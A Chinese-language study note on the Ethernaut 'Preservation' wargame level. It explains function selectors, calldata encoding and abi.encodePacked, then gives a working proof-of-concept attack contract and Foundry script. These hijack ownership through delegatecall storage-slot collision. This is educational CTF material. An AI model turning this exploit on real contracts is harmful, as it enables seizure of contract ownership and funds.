

# Preservation delegatecall 函数选择器

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//0x157d4Af82c5FcE53c95064963D260e58289611d6
contract Preservation {
    // public library contracts
    address public timeZone1Library; //0
    address public timeZone2Library; //1
    address public owner; //2
    uint256 storedTime; //3
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)")); //constant 常量,不占槽

    constructor(
        address _timeZone1LibraryAddress,
        address _timeZone2LibraryAddress//这两个是参数哦
    ) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender; //这里的msg.sender是部署者，不是我
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(
            abi.encodePacked(setTimeSignature, _timeStamp) //(函数选择器，实参)
        );
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(
            abi.encodePacked(setTimeSignature, _timeStamp) //(函数选择器，实参)
        );
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime; //0

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}

```

## 函数选择器

**函数签名的前 4 个字节的哈希值**，用来告诉 EVM 你要调哪个函数

* 函数签名： 函数名 + 参数类型（不包含参数名）

比如`setFirstTime(uint256)`

* 获取selector的方法：bytes4(keccak256("setTime(uint256)"))

```solidity
cast sig "setFirstTime(uint256)"
```

这样会返回四字节的选择器，比如`0xf1e02620`

### 函数选择器碰撞

```solidity
cast sig "transferFrom(address,address,uint256)"
```

和

```solidity
cast sig "gasprice_bit_ether(int128)"
```

函数选择器一样,都是`0x23b872dd`



## selector 在合约调用中是怎么用的

调用合约函数时，数据（calldata）是这样编码的：

```plain
[ selector (4 bytes) ][ 参数1 (32 bytes) ][ 参数2 (32 bytes) ] ...
```

```solidity
setTime(123456) //selector = 0xabcdef12
```

那么calldata就是:

```solidity
0xabcdef12 //selector
000000000000000000000000000000000000000000000000000000000001e240 //123456 的 32 字节表示
```

## abi.encodePacked(value1,value2,....)

```solidity
bytes memory packed = abi.encodePacked(val1, val2, ...);
```

它会将所有输入参数**紧密地拼接在一起**，中间**没有填充**（padding），适合构造**哈希值**或紧凑的数据格式

## poc

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {Preservation} from "./Preservation.sol";

contract Attack {
    address public abc; //0
    address public cba; //1
    address public owner; //2
    Preservation public preservation;

    constructor(address addr) {
        preservation = Preservation(addr);
    }

    function attack() external {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(
            uint256(uint160(0x98707a8Cb53bD823f9c5353611018aF38533adE5))
        );

        require(
            preservation.owner() == 0x98707a8Cb53bD823f9c5353611018aF38533adE5,
            "no"
        );
    }

    function setTime(uint256 _owner) external {
        owner = address(uint160(_owner));
    }
}

```

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Attack} from "../src/Attack.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(0xf3a31B78c13e32ad956AcC44eE815433B4d9713C);
        attack.attack();
        vm.stopBroadcast();
    }
}

```


> 更新: 2025-07-14 14:12:13  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/th6v8brl3gfp7u8h>